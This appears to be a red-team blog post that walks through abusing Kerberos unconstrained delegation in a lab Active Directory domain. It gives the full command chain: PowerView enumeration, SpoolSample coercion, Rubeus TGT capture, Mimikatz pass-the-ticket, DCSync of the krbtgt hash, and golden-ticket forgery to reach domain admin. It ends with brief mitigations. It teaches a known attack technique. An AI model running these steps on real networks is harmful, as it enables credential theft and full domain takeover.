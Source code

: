 ```yaml
---
layout: post
title: "DCSync attacks with Kerberos unconstrained delegation."
description: "This post demonstrates how to capture the domain controller’s Ticket-Granting-Ticket (TGT) by coerce a domain controller to authenticate to a computer configured with unconstrained delegation."
tags: [red_team, active_directory]
---
```


### Introduction.

In the `Active Directory` environment delegation allows an account to impersonate another account to access resources within the network.

There are three known types of delegations allowed with Kerberos:

- Unconstrained delegations.
- Constrained delegations.
- Resource-based constrained delegations.

Unconstrained delegation allows a user or computer with the option "Trust This user/computer for delegation to any service" enabled to impersonate any user authenticated to it and request access to any service.

Today we will be trying to abuse Unconstrained delegation to perform a privilege escalation and become a domain admin.

The following image represents a computer in the Active Directory which is configured for unconstrained delegation:

{% include image.html path="screenshots/krbdelg/1.png" path-detail="screenshots/krbdelg/1.png" alt="Sample image" %}

<br>
<hr>
<br>

### Attack Requirements

- A domain computer with the delegation option "Trust This computer for delegation to any service" enabled.
- Local admin privileges on the delegated computer to dump the TGT tickets. If you compromised the server as a regular user, you would need to escalate to abuse this delegation feature.

<br>
<hr>
<br>

### Tools Used

- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [Active Directory Modules](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Rubeus](https://github.com/GhostPack/Rubeus)

<br>
<hr>
<br>

### Identifying The Target.

We are interested with computer objects with the property `TrustedForDelegation` set to `true`:

We can use PowerView to find computers that are configured for Unconstrained Delegation with a syntax :

```powershell
Get-DomainComputer -Unconstrained -Properties useraccountcontrol,dnshostname | fl
```
<br>
{% include image.html path="screenshots/krbdelg/2.png" path-detail="screenshots/krbdelg/2.png" alt="Sample image" %}

<br>
Also using ADModule with the following syntax we can see the same results:

```powershell
 Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```
<br>
{% include image.html path="screenshots/krbdelg/3.png" path-detail="screenshots/krbdelg/3.png" alt="Sample image" %}


As we can see we have two computers in the `STRAWHATS.local` domain with unconstrained delegation:

- The computer is named `DC01.strawhats.local`, which is a domain controller, Domain controllers have unconstrained delegation enabled by default.
- The computer named `BLACKBEARD.strawhats.local` computer which is our target, we are good to attack.

<br>
<hr>
<br>

### Exploitation.

In order to exploit unconstrained delegation we need to compromise the system with the delegation enabled, in this post we’ll assume that we already did it.

The idea is to coerce a privileged user to connect to the computer with the delegation enabled. To achieve this we’re going to use the SpoolSample bug to force a domain controller account to connect to us.

First let us set up Rubeus on the computer we compromised to listen for incoming authenticated connections in order to monitor for incoming connections with Rubeus using the following command:

```powershell
Rubeus.exe monitor /interval:5 /filteruser:DC01
```

<br>
{% include image.html path="screenshots/krbdelg/4.png" path-detail="screenshots/krbdelg/4.png" alt="Sample image" %}

Next, using SpoolSample tools, we trigger the printer bug on a domain controller, We are triggering the bug on host `DC01.strawhats.local` and coercing it to authenticate against the host that we control where we are running Rubeus, `BLACKBEARD.strawhats.local`.

```powershell
SpoolSample.exe DC01.strawhats.local BLACKBEARD.strawhats.local
```

where:

- `DC01.strawhats.local` is the domain controller we want to compromise
- `BLACKBEARD.strawhats.local` is the machine with delegation enabled that we control.

{% include image.html path="screenshots/krbdelg/5.png" path-detail="screenshots/krbdelg/5.png" alt="Sample image" %}

Suddenly, we see the authentication come from DC01 along with its ticket granting ticket (TGT) captured by Rubeus.

{% include image.html path="screenshots/krbdelg/6.png" path-detail="screenshots/krbdelg/6.png" alt="Sample image" %}

From a powershell console we can convert the base64 ticket and write the contents to a file with the .kirbi extension using the following command.

```powershell
[IO.File]::WriteAllBytes("C:\tools\DC.kirbi", [Convert]::FromBase64String("Base64 Ticket String"))
```
<br>
{% include image.html path="screenshots/krbdelg/7.png" path-detail="screenshots/krbdelg/7.png" alt="Sample image" %}

Before we proceed with pass-the-ticket attack and become a domain admin, let's try PSRemoting to the DC01 from BLACKBEARD and check currently available kerberos tickets in a current logon session, just to make sure we currently do not have domain admin rights:

{% include image.html path="screenshots/krbdelg/9.png" path-detail="screenshots/krbdelg/9.png" alt="Sample image" %}

Above picture shows that there are no tickets and PSSession could not be established.

Using Mimikatz we can pass-the-ticket and the current user account will get high privilege rights on the domain controller.

```powershell
mimikatz.exe "kerberos::ptt DC.kirbi"
```

<br>
{% include image.html path="screenshots/krbdelg/8.png" path-detail="screenshots/krbdelg/8.png" alt="Sample image" %}

Then we `DCSync` to dump the `NTLM` hash of the `krbtgt` account.

```powershell
lsadump::dcsync /user:STRAWHATS\krbtgt`
```
<br>
{% include image.html path="screenshots/krbdelg/10.png" path-detail="screenshots/krbdelg/10.png" alt="Sample image" %}

Now let’s forge a golden ticket with Mimikatz for the user STRAWHATS\Administrator:

```powershell
kerberos::golden /user:Administrator /domain:strawhats.local /sid:S-1-5-21-3112608399-2123514497-4142719192-502 /krbtgt:3db0f96a64abc0bc2e4dd779d191d74a /ptt
```
<br>
{% include image.html path="screenshots/krbdelg/11.png" path-detail="screenshots/krbdelg/11.png" alt="Sample image" %}

Now We can try to PSRemote again into the domain controller as the Administrator user :

<br>
{% include image.html path="screenshots/krbdelg/12.png" path-detail="screenshots/krbdelg/12.png" alt="Sample image" %}

As we can see from the above screenshot, the BLACKBEARD computer now contains a krbtgt for STRAWHATS\Administrator, which enables to establish a PSSession to DC01 with an interactive shell with Domain admin privileges.

<br>
<hr>
<br>

### Mitigation.

- Disable kerberos delegation where possible.
- Be cautious of whom you give privilege "Trust This user/computer for delegation to any service".

<br>
<hr>
<br>

##### References.

- https://www.slideshare.net/harmj0y/the-unintended-risks-of-trusting-active-directory
- https://adsecurity.org/?p=1667
- https://blog.xpnsec.com/kerberos-attacks-part-1/
- https://www.cyberark.com/resources/threat-research-blog/weakness-within-kerberos-delegation
